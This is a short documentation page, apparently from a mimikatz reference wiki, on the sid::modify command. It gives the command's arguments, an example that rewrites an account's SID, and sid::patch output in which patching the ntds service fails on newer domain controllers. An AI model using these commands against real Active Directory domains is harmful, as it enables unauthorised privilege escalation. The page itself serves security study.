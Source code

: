# modify

This module can be used to modify an object's SID. It has the following command line argument:

* `/sam`: the `sAMAccountName`.
* `/new`: the new SID value. It also accepts format such as `Builtin\administrators`.

```
mimikatz # sid::modify /sam:username /new:S-1-5-21-
```

![SID modification](../../../.gitbook/assets/sid\_modify.jpg)

{% hint style="warning" %}
The process of SID modification and changes push must be run on the domain controller.
{% endhint %}

{% hint style="info" %}
The image above was borrowed from one of Benjamin's [tweet](https://twitter.com/gentilkiwi/status/728367477458145280?s=20) since while attempting to reproduce the same steps on a Windows 2016 domain controller, the following error was encountered.

```
mimikatz # sid::patch
Patch 1/2: "ntds" service patched
Patch 2/2: ERROR kull_m_patch_genericProcessOrServiceFromBuild ; kull_m_patch (0x00000057)
```

[Dliv3](https://github.com/Dliv3) has [reported](https://github.com/gentilkiwi/mimikatz/issues/348) a similar situation on a Windows Server 2019.
{% endhint %}
